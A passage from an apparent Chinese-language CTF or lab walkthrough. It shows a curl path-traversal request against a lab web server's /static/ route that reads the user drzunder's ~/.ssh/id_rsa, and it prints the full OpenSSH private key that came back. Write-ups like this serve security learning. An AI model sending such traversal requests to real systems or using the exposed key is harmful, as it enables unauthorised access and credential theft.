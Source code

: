 看到**/home**下存在**ubuntu**和**drzunder**两个用户

并且可以读取到**drzunder**的**ssh**密钥

```
[root@kali] /home/kali/grandma  
❯ curl -s --path-as-is "http://10.10.10.2:5000/static/../../../../../home/drzunder/.ssh/id_rsa"         
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

